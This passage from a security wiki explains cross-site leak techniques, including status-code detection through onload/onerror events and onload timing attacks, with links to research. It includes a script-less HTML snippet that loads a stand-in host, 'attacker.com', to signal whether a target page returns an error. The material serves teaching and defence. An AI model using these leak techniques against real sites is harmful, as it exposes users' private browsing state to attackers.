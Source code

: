 - **Inclusion Methods**: Frames, HTML Elements
- **Detectable Difference**: Status Code
- **More info**: [https://www.usenix.org/conference/usenixsecurity19/presentation/staicu](https://www.usenix.org/conference/usenixsecurity19/presentation/staicu), [https://xsleaks.dev/docs/attacks/error-events/](https://xsleaks.dev/docs/attacks/error-events/)
- **Summary**: if trying to load a resource onerror/onload events are triggered with the resource is loaded successfully/unsuccessfully it's possible to figure out the status code.
- **Code example**: [https://xsinator.com/testing.html#Event%20Handler%20Leak%20(Script)](<https://xsinator.com/testing.html#Event%20Handler%20Leak%20(Script)>)

{{#ref}}
xs-search/cookie-bomb-+-onerror-xs-leak.md
{{#endref}}

The code example try lo **load scripts objects from JS**, but **other tags** such as objects, stylesheets, images, audios could be also used. Moreover, it's also possible to inject the **tag directly** and declare the `onload` and `onerror` events inside the tag (instead of injecting it from JS).

There is also a script-less version of this attack:

```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

In this case if `example.com/404` is not found `attacker.com/?error` will be loaded.

### Onload Timing

- **Inclusion Methods**: HTML Elements
- **Detectable Difference**: Timing (generally due to Page Content, Status Code)
- **More info**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events)
- **Summary:** The [**performance.now()**](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/#performancenow) **API** can be used to measure how much time it takes to perform a request. However, other clocks could be used, such as [**PerformanceLongTaskTiming API**](https://developer.mozilla.org/en-US/docs/Web/API/PerformanceLongTaskTiming) which can identify tasks running for more than 50ms.
- **Code Example**: [https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#onload-events) another example in:

{{#ref}}
xs-search/performance.now-example.md
{{#endref}}

#### Onload Timing + Forced Heavy Task

This technique is just like the previous one, but the **attacker** will also **force** some action to take a **relevant amount time** when the **answer is positive or negative** and measure that time.

{{#ref}}
xs-search/performance.now-+-force-heavy-task.md
{{#endref}}
